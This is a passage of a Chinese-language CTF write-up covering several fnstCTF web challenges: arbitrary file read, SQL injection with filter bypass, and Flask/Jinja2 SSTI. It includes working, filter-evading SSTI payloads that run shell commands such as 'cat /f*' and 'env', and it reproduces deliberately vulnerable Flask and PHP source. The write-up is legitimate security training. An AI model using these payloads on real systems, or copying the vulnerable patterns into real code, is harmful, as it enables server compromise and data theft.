# fnstCTF 题解-先知社区

> **来源**: https://xz.aliyun.com/news/16180  
> **文章ID**: 16180

---

# fnstCTF 题解

## 前言

这次比赛就离谱，打到一半，发现打开题目就访问不了，一直访问不了  
给了个通知



还是不行，最后查域名 ip，然后才可以访问

## ez\_python

Find the get parameter to read something

叫我们爆破参数  
尝试 file 参数



就是一个 file 读取文件  
然后读取一下 flag



读不到，环境变量试一试


不让读，应该是读源码了  
看了一下是 python 写的，一般都是去读 app.py

还真是



得到源码

```
from flask import Flask, request, render_template_string
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
import waf

app = Flask(__name__)

limiter = Limiter(
    get_remote_address,
    app=app,
    default_limits=["300 per day", "75 per hour"]
)
@app.route('/')
@limiter.exempt
def index():
    file_path = request.args.get('file')
    if file_path and "proc" in file_path:
        return "只过滤了proc，别想用这个了，去读源码", 200
    if file_path:
        try:
            with open(file_path, 'r') as file:
                file_content = file.read()
            return f"{file_content}"
        except Exception as e:
            return f"Error reading file: {e}"
    return "Find the get parameter to read something"

@app.route('/shell')
@limiter.limit("10 per minute")
def shell():
    if request.args.get('name'):
        person = request.args.get('name')
        if not waf.waf_check(person):
            mistake = "Something is banned"
            return mistake
        template = 'Hi, %s' % person
        return render_template_string(template)
    some = 'who you are?'
    return render_template_string(some)

@app.errorhandler(429)
def ratelimit_error(e):
    return "工具？ 毫无意义，去手搓", 429

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=8000)

```

可以看到是有 waf 的，读一下

```
def waf_check(value):
    dangerous_patterns = ['os', 'set', '__builtins__', '=', '.', '{{', '}}', 'popen', '+', '__']
    for pattern in dangerous_patterns:
        if pattern in value:
            return False
    return True

```

ssti绕过，简单绕过一下



读取 flag



## 三千零一夜

考的 sql 注入

单引号闭合双写绕过

回显位是 1  
查询数据库



数据库为 flaginit  
然后查询表

=符号是被过滤了，可以 like，但是 like 也本过滤了，可以双写绕过



表名 fflllaaaagggg


trueflag  
打一半题目下了

## comment\_me



随便点点没有发现什么东西

扫了一波目录啥也没有

抓包



修改啥东西，然后把漏洞都测试了一遍，发现是 ssti



又是尝试绕过

发现只有点被过滤了



然后就打payload

拿着上一题的 payload 就开始干





然后查看 flag 位置

```
{%print(lipsum["\x5f\x5fglobals\x5f\x5f"][%27o%27%27s%27][%27pope%27%27n%27](%27ls /%27)[%27read%27]())%}

```



直接读取 flag

```
{%print(lipsum["\x5f\x5fglobals\x5f\x5f"][%27o%27%27s%27][%27pope%27%27n%27](%27cat /f*%27)[%27read%27]())%}

```



空的，源码中也没有  
看一下我们的权限

```
h2=2&p={%print(lipsum["\x5f\x5fglobals\x5f\x5f"][%27o%27%27s%27][%27pope%27%27n%27](%27whoami%27)[%27read%27]())%}

```



所以读取不到 flag  
这里应该是要提权的，然后我直接环境变量看了一下

```
h2=2&p={%print(lipsum["\x5f\x5fglobals\x5f\x5f"][%27o%27%27s%27][%27pope%27%27n%27](%27env%27)[%27read%27]())%}

```



就读取出了 flag

## ez\_php

源码

```
<?php
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['usn']) && isset($_POST['pwd']) && isset($_GET['usn1']) && isset($_POST['pwd1']) ){
    $usn = $_GET['usn'];
    $usn1 = $_GET['usn1'];
    $pwd = $_POST['pwd'];
    $pwd1 = $_POST['pwd1'];
    if ($usn != $pwd && md5($usn) == md5($pwd)){
        if ($usn1 !== $pwd1 && md5($usn1) === md5($pwd1)){
            $sign = isset($_GET['sign']) && !empty($_GET['sign']) ? $_GET['sign'] : '';
            $forbidden_commands = ['cat', 'tac', 'nl', 'more', 'less', 'head', 'tail', 'read'];
            $sign_lower = strtolower($sign);
            foreach ($forbidden_commands as $forbidden) {
                if (strpos($sign_lower, $forbidden) !== false) {
                    die('lol');
                }
            }
            if (empty($sign)) {
                die('lol');
            }
            try {
                $output = shell_exec(escapeshellcmd($sign));
                echo "<pre>$output</pre>";
            } catch (ValueError $e) {
                echo "lol";
            }
        }
        else{
            echo "lol";
        }
    }
    else {
        echo "lol";
    }

}
else {
    echo 'lol';
}
?> lol

```

就是考 php 的特性了  
首先是一个 md5 的若比较

```
$usn != $pwd && md5($usn) == md5($pwd)

```

